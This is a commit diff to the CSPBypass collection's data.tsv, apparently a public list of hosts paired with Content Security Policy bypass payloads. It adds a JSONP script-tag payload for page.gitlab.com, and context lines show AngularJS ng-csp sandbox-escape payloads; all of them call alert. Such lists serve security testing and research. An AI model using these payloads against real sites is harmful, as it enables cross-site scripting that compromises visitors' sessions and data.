

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added page.gitlab.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -163 +163,2 @@ yastatic.net	<body ng-app ng-csp><script src="https://yastatic.net/s3/milab/js/a
 yuedust.yuedu.126.net	<body ng-app ng-csp><script src="//yuedust.yuedu.126.net/js/components/angular/angular.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+page.gitlab.com	<script src='https://page.gitlab.com/index.php/form/getForm?munchkinId=194-VVC-221&form=1077&callback=alert'></script>
```
